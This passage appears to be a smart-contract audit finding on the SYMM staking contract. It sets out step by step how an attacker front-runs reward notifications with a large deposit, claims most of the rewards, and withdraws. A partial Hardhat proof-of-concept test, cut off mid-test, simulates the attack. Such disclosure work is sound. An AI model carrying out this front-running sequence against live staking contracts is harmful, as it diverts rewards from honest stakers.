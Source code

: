 1. Attacker monitors mempool for pending `notifyRewardAmount()` transactions
2. Attacker front-runs by calling `deposit()` with a `large` amount of SYMM tokens
3. Original reward notification transaction executes, distributing rewards at a rate proportional to current staked amounts
4. Attacker waits a minimal period (as little as 200 seconds or 0.03% of the reward period)
5. Attacker calls `claimRewards()` to collect rewards proportional to their dominant stake
6. Attacker immediately calls `withdraw()` to retrieve their staked tokens
7. Attacker can `repeat this process` whenever new rewards are added

### Impact

The honest long-term stakers suffer an approximate loss of 99% of the rewards they should have received during attack periods. The attacker gains these rewards with minimal participation time, undermining the stated goal of the staking system to reward long-term participation. This results in a economically unsustainable staking system where long-term participation is not properly incentivized.

### PoC

add this test to `symmStaking.behavior.ts`

```solidity
it.only("should demonstrate front-running vulnerability with rewards distribution", async function () {
			const honestStakeAmount = "1000";
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), honestStakeAmount);
			await symmStaking.connect(user1).deposit(honestStakeAmount, user1.address);
			console.log(`[SETUP] Honest user (${user1.address.slice(0, 8)}...) staked ${honestStakeAmount} tokens`);

			await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true);
			console.log(`[SETUP] Admin configured USDT as reward token`);

			console.log(`[ATTACK] Attacker prepares for front-running...`);

			// Step 1: Attacker stakes a large amount
			const attackerStakeAmount = "1000000"; // 1,000,000 tokens (1000x more than honest user)
			await stakingToken.connect(admin).mint(user2.address, attackerStakeAmount);
			await stakingToken.connect(user2).approve(await symmStaking.getAddress(), attackerStakeAmount);

			// Step 2: Attacker monitors mempool for pending reward notification transaction
			// (simulated in the test by staking right before reward notification)
			await symmStaking.connect(user2).deposit(attackerStakeAmount, user2.address);
			console.log(`[ATTACK] Attacker (${user2.address.slice(0, 8)}...) front-runs with ${attackerStakeAmount} tokens`);

			const totalSupply = await symmStaking.totalSupply();
			const honestStakePercentage = (BigInt(honestStakeAmount) * 100n) / totalSupply;
			const attackerStakePercentage = (BigInt(attackerStakeAmount) * 100n) / totalSupply;

			console.log(`[STATS] Total staked amount: ${totalSupply.toString()}`);
			console.log(`[STATS] Honest user's stake percentage: ${honestStakePercentage}%`);
			console.log(`[STATS] Attacker's stake percentage: ${attackerStakePercentage}%`);

			const rewardAmount = "604800"; // 1 week worth of rewards at 1 token per second

			await usdtToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount);
			console.log(`[REWARD] Admin adding ${rewardAmount} USDT as rewards`);
			await symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmount]);

			const rewardState = await symmStaking.rewardState(await usdtToken.getAddress());
```
